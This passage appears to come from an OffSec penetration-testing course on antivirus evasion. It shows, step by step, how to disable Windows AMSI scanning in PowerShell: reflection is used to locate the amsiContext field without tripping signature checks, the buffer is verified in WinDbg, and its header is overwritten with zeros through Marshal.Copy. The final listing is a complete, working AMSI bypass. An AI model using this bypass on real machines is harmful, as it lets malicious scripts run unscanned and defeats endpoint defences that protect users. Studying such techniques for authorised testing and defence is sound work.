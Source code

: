 As we will soon realize, the _amsiContext_ field contains the unmanaged _amsiContext_ buffer. However, we can not reference the field directly since _amsiContext_ also contains a malicious "amsi" string. We'll again loop through all the fields, searching for a name containing "Context":

```
PS C:\Users\Offsec> $d=$c.GetFields('NonPublic,Static')

PS C:\Users\Offsec> Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}

PS C:\Users\Offsec> $f.GetValue($null)
1514420113440
```

> Listing 34 - Finding the address of amsiContext through reflection

Although we managed to obtain the _amsiContext_ field without triggering AMSI, the output contains a very large integer. Converting this to hexadecimal produces _0x1609A791020_, which looks like a valid memory address.

To verify our theory that this is indeed the address of the _amsiContext_ buffer, we'll open and attach WinDbg and dump the memory at address _0x1609A791020_:

```
0:009> dc 0x1609A791020
00000160`9a791020  49534d41 00000000 806db190 00000160  AMSI......m.`...
00000160`9a791030  8086dd30 00000160 00000022 00000000  0...`...".......
00000160`9a791040  6372756f 00007365 cf43afd2 91000300  ources....C.....
00000160`9a791050  554c4c41 53524553 464f5250 3d454c49  ALLUSERSPROFILE=
00000160`9a791060  505c3a43 72676f72 61446d61 00006174  C:\ProgramData..
00000160`9a791070  00000000 00000000 cf5eafd1 80000400  ..........^.....
00000160`9a791080  00000000 00000000 9a791080 00000160  ..........y.`...
00000160`9a791090  00000000 00000000 80000000 00000000  ................
```

> Listing 35 - Verifying the address of amsiContext in WinDbg

The first four bytes at the dumped address contain the AMSI header values, indicating that this is very likely the _amsiContext_ buffer.

Now, let's put this all together. We'll recreate each of the steps and use _Copy_[7](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_314-7) to overwrite the _amsiContext_ header by copying data (four zeros) from managed to unmanaged memory:

```
PS C:\Users\Offsec> $a=[Ref].Assembly.GetTypes()

PS C:\Users\Offsec> Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}

PS C:\Users\Offsec> $d=$c.GetFields('NonPublic,Static')

PS C:\Users\Offsec> Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}

PS C:\Users\Offsec> $g=$f.GetValue($null)

PS C:\Users\Offsec> [IntPtr]$ptr=$g

PS C:\Users\Offsec> [Int32[]]$buf=@(0)

PS C:\Users\Offsec> [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
